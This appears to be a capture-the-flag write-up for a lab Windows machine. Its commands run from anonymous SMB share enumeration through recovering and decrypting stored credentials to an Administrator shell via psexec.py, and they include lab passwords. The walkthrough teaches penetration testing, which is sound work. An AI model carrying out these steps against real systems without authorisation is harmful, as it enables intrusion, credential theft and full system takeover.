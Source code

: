 youpentesting, enumeration, SMB, crackmapexec, smbmap, smbclient, mount, resources, credentials, decrypt, access, privileges, escalation, system, psexec

**Enumerating SMB Shares and Exploiting Them**

If port 445 (SMB) is open on the target machine, you can enumerate and potentially exploit it using various tools like smbmap, smbclient, or crackmapexec.

1. **Using CrackMapExec for Initial Enumeration**

   ```bash
   crackmapexec smb 10.10.10.178
   ```

   This command uses CrackMapExec to scan the target IP (10.10.10.178) for SMB shares. It provides information about the Windows version and available shares.

2. **Using smbmap to List Shares**

   ```bash
   smbmap -H 10.10.10.178 -u 'null'
   ```

   Here, smbmap is used to list shares on the target IP. The '-u' flag specifies the username as 'null,' which often works as a guest user. It reveals the available shares and their permissions.

3. **Accessing Read-Only Shares with smbclient**

   You can access read-only shares like 'Data' and 'Users' with smbclient:

   ```bash
   smbclient //10.10.10.178/Data -N
   ```

   This command connects to the 'Data' share without a password ('-N').

4. **Mounting a Share for Inspection**

   To mount and explore a share, create a mount point, and mount the 'Data' share:

   ```bash
   mkdir /mnt/mountpoint
   mount -t cifs //10.10.10.178/Data /mnt/mountpoint
   cd /mnt/mountpoint
   tree -fas
   ```

   This sequence of commands creates a mount point, mounts the 'Data' share, and displays the directory structure using 'tree.'

5. **Examining a File: "Welcome Email.txt"**

   Inside the mounted share, you can review files like "Welcome Email.txt" to find credentials:

   ```
   Username: TempUser
   Password: welcome2019
   ```

   Save these credentials in a file named "credentials" for future use.

6. **Verifying Credentials with CrackMapExec**

   To check if these credentials are valid, use CrackMapExec again:

   ```bash
   crackmapexec smb 10.10.10.178 -u 'TempUser' -p 'welcome2019'
   ```

   If the result doesn't indicate 'pwned,' the credentials are valid but might not have sufficient privileges.

7. **Testing SMB Access with smbmap**

   You can use smbmap again, this time with the obtained credentials:

   ```bash
   smbmap -H 10.10.10.178 -u 'TempUser' -p 'welcome2019'
   ```

   This command checks for accessible resources with the 'TempUser' credentials.

8. **Accessing Resources with a New User**

   If you find other accessible resources but can't access them with 'TempUser,' remount the 'Data' share with these credentials:

   ```bash
   mkdir /mnt/mountpoint
   mount -t cifs //10.10.10.178/Data /mnt/mountpoint -o username=TempUser,password=welcome2019,domain=WORKGROUP,rw
   cd /mnt/mountpoint
   tree -fas
   ```

9. **Discovering More Resources**

   Inside the newly mounted share, explore directories and files. You might find configuration files or encrypted credentials.

10. **Decrypting Encrypted Credentials**

    If you find encrypted credentials, such as in a Visual Basic script, you can attempt to decrypt them. Online tools like dotnetfiddle.net can be used for decryption.

11. **Confirming Valid Credentials**

    Use CrackMapExec to confirm the validity of the decrypted credentials:

    ```bash
    crackmapexec smb 10.10.10.178 -u 'c.smith' -p 'xRxRxPANCAK3SxRxRx'
    ```

12. **Exploring Accessible Resources with New Credentials**

    Finally, use smbmap again to discover accessible resources with the 'c.smith' credentials:

    ```bash
    smbmap -H 10.10.10.178 -u 'c.smith' -p 'xRxRxPANCAK3SxRxRx'
    ```

    This command lists the resources accessible with the 'c.smith' credentials, allowing me to continue my enumeration.

    ```bash
    smbmap -H 10.10.10.178 -u 'c.smith' -p 'xRxRxPANCAK3SxRxRx' -r 'Users'
    smbmap -H 10.10.10.178 -u 'c.smith' -p 'xRxRxPANCAK3SxRxRx' -r 'Users/C.Smith'
    smbmap -H 10.10.10.178 -u 'c.smith' -p 'xRxRxPANCAK3SxRxRx' --download 'Users/C.Smith/user.txt'
    ```

To gain access to the system and escalate privileges, follow these steps:

13. **Create a Mount Point and Mount the Resource**:

   First, create a mount point and mount the resource using the new credentials. In this example, we are mounting a CIFS share:

   ```bash
   mkdir /mnt/mountpoint
   mount -t cifs //10.10.10.178/Users /mnt/mountpoint -o username=c.smith,password=xRxRxPANCAK3SxRxRx,domain=WORKGROUP,rw
   cd /mnt/mountpoint
   tree -fas
   ```

   This code creates a directory called "mountpoint," mounts the specified resource with the given credentials, and lists the contents of the mounted directory.

14. **Explore the Mounted Directory**:

   Navigate to the user's directory, in this case, C.Smith, and explore its contents. You may find interesting files:

   ```bash
   cd C.Smith
   tree -fas
   ```

15. **Investigate a Potentially Hidden File**:

   If you come across a file like "Debug Mode Password.txt" that appears empty, consider the possibility of hidden data. You can use `smbclient` to retrieve more information using the "allinfo" utility:

   ```bash
   umount /mnt/mountpoint
   smbclient //10.10.10.178/Users -U 'c.smith%xRxRxPANCAK3SxRxRx'
   cd C.Smith
   cd "HQK Reporting"
   allinfo "Debug Mode Password.txt"
   get "Debug Mode Password.txt:Password"
   ```

   This will attempt to reveal hidden information within the file.

16. **Discover a Password**:

   If successful, you may find a password within "Debug Mode Password.txt." Test this password on other services or ports you discover. For instance, if you find a service on port 4386, you can use `telnet` to connect:

   ```bash
   telnet 10.10.10.178 4386
   ```

   Once connected, you can explore and interact with the service.

17. **Access LDAP Configuration**:

   Investigate further by using commands like "SHOWQUERY 2" to access LDAP configuration:

   ```bash
   SHOWQUERY 2
   ```

   This may reveal encrypted credentials for the Administrator account.

18. **Decrypt Administrator Credentials**:

   Download the executable "HqkLdap.exe" to your Windows virtual machine. Analyze it using a tool like "dotpeek" to understand its code. You can also use C# in "dotnetfiddle.net" to attempt to decrypt the Administrator's credentials.

19. **Validate the Credentials**:

   Use "crackmapexec" to validate the decrypted credentials:

   ```bash
   crackmapexec smb 10.10.10.178 -u 'Administrator' -p 'XtH4nkS4Pl4y1nGX'
   ```

   If "crackmapexec" returns "Pwn3d!" as a result, the credentials are valid.

20. **Access the System**:

   Use "psexec.py" to connect to the machine and obtain the flag:

   ```bash
   psexec.py WORKGROUP/Administrator:XtH4nkS4Pl4y1nGX@10.10.10.178 cmd.exe
   ```

   This command connects you to the target machine as Administrator, allowing you to interact with the system.







